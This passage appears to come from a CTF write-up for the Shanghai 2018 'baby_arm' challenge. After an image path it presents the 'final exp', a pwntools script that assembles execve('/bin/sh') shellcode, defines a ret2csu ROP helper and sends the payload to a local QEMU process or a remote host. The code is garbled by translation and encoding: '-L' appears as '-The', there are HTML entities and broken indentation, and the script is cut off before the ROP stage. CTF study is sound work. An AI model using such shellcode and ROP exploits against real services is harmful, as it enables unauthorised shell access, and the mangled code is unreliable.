 

The final [exp](https://github.com/bash-c/pwn_repo/blob/master/Shanghai2018_baby_arm/solve.py) is as follows:
```python

#!/usr/bin/env python

# -*- coding: utf-8 -*-



from pwn import *

import sys

context.binary = "./pwn"

context.log_level = "debug"



if sys.argv[1] == "l":

io = process ([ &quot;QEMU-aarch64&quot;, &quot;-The&quot;, &quot;/ usr / aarch64-linux-gnu&quot;, &quot;./pwn&quot;])
elif sys.argv [1] == &quot;d&quot;:
io = process ([ &quot;QEMU-aarch64&quot;, &quot;G&quot;, &quot;1234&quot;, &quot;-The&quot;, &quot;/ usr / aarch64-linux-gnu&quot;, &quot;./pwn&quot;])
else:

io = remote (&quot;106.75.126.171&quot;, 33865)


def csu_rop(call, x0, x1, x2):

    payload = flat(0x4008CC, '00000000', 0x4008ac, 0, 1, call)

    payload += flat(x2, x1, x0)

    payload += '22222222'

    return payload





if __name__ == "__main__":

    elf = ELF("./pwn", checksec = False)

    padding = asm('mov x0, x0')



    sc = asm(shellcraft.execve("/bin/sh"))

    #  print disasm(padding * 0x10 + sc)

    io.sendafter("Name:", padding * 0x10 + sc)

    sleep(0.01)


```